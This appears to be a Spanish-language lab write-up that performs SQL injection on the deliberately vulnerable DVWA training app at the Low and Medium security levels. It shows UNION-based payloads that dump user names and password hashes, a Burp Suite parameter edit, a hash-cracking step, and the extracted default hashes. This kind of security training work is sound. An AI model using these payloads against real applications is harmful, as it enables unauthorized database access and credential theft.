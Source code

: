 #SQL INJECTION DVWA

## SQL Injection en **Low** Security

### Pasos en low:

1. Ve al menú izquierdo y selecciona **SQL Injection**.
2. En el campo **User ID**, ingresa el siguiente payload:

```sql
1' OR '1'='1
```

Con el anterior payload hemos consegido los usuarios como vemos en la siguiente captura:

![Usuarios](./Imagenes/Usuarios.png)

Ahora necesitaremos obtener las contraseñas, para ellos usaremos el siguiente payload:

```sql
' UNION SELECT user, password FROM users#
```
captura:

![Contraseñas](./Imagenes/Contraseñas.png)

Y para finalizar tendremos que transformar los hashes en texto plano, podriamos usar "jhon the ripper" o por ejemplo yo he usado una web 

[Crackstation](https://crackstation.net/)

captura de las contraseñas en plano:

![Contraseñas en plano](./Imagenes/Contraseñas_en_plano.png)

## SQL Injection en **Medium** Security

### Pasos:

1. Debido al nivel de seguridad **Medium**, el formulario de entrada estaba limitado a un desplegable (select) de 1 a 5. Sin embargo, se identificó que la aplicación seguía utilizando los parámetros GET en la URL, por lo que fue posible manipularlos manualmente.

Cuando usamos '1 OR 1=1' Esta condición siempre es verdadera, forzando que la consulta devuelva todas las filas. 

Usando el payload de low en medium:

![Usando el payload de low en medium](./Imagenes/Low_en_medium.png)


Resultado del anterior payload:

![Resultado del anterior payload](./Imagenes/Resultado_low_en_medium.png)


2. Para interceptar y modificar la petición cambiando el valor del parámetro `id` en burpsuite al valor la URL:

UNION SELECT user, password FROM users: Se utiliza la cláusula UNION para combinar los resultados de dos consultas SQL, obteniendo directamente las columnas user y password de la tabla users.

#: Se utiliza el comentario para ignorar cualquier parte restante de la consulta original que podría causar errores.

```sql
1 OR 1=1 UNION SELECT user, password FROM users#

```

Carga del payload en burpsuite:

![Carga del payload en burpsuite](./Imagenes/Burpsuite_SQL_medium_DVWA.png)


Resultado:

![Resultado](./Imagenes/Contraseñas_medium.png)

3. Ahora como hemos hecho en el low podemos descrifar los hashes.

## Documentacion Extra: Hashes

[Hashes extraídos](./extraccion_de_hashes.txt)
```
text
ID: ' UNION SELECT user, password FROM users#
First name: admin
Surname: 5f4dcc3b5aa765d61d8327deb882cf99

ID: ' UNION SELECT user, password FROM users#
First name: gordonb
Surname: e99a18c428cb38d5f260853678922e03

ID: ' UNION SELECT user, password FROM users#
First name: 1337
Surname: 8d3533d75ae2c3966d7e0d4fcc69216b

ID: ' UNION SELECT user, password FROM users#
First name: pablo
Surname: 0d107d09f5bbe40cade3de5c71e9e9b7

ID: ' UNION SELECT user, password FROM users#
First name: smithy
Surname: 5f4dcc3b5aa765d61d8327deb882cf99
```